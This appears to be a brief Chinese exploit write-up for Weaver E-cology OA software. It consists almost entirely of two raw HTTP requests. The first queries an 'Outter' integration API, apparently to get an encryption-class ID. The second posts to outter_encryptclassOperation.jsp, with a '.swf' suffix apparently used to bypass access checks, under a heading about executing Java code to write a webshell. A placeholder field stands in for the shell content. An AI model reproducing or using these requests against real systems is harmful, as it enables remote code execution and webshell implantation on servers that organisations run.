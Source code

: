 
```
POST /api/integration/Outter/getOutterSysEncryptClassOperates?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: &#34;6evu6PUo/Cz&#34;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc
```

  
###   
  
此处ID为2  
### 直接执行java代码写shell  
  

```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: &#34;6evu6PUo/Cz&#34;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryITdrx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc


------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name=&#34;operation&#34;

test
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name=&#34;plaintext&#34;

马子
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name=&#34;id&#34;

2
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name=&#34;x&#34;; filename=&#34;x&#34;

1
------WebKitFormBoundaryITdrxxca8L1Xo7Rq--
```

